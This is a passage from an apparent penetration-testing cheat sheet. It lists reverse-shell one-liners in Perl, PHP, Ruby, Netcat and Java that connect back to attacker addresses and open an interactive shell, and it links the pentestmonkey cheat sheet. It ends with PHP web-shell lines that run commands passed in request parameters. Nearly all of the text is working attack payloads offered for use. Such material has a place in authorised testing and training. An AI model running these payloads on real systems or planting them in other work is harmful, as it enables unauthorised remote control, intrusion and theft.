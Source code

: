 ### Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### PHP

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```bash
nc -e /bin/bash 10.10.14.34 5555
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4444 >/tmp/f
rm /tmp/2;mkfifo /tmp/2;cat /tmp/2|/bin/sh -i 2>&1|nc 10.10.14.15 5555 >/tmp/2
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### &#x20;pentestmonkey cheat sheet

[https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Web Shells

```bash
ls /usr/share/webshells  # List the different languages of webshells
```

### PHP

```bash
<?php system($_GET["cmd"]); ?>
<?php system($_REQUEST['cmd']); ?>
<?php echo system($_GET["cmd"]); ?>
<?php echo system($_REQUEST['cmd']); ?>
<?php​​ echo​ shell_exec($_GET[​"cmd"​]); ​?>
```
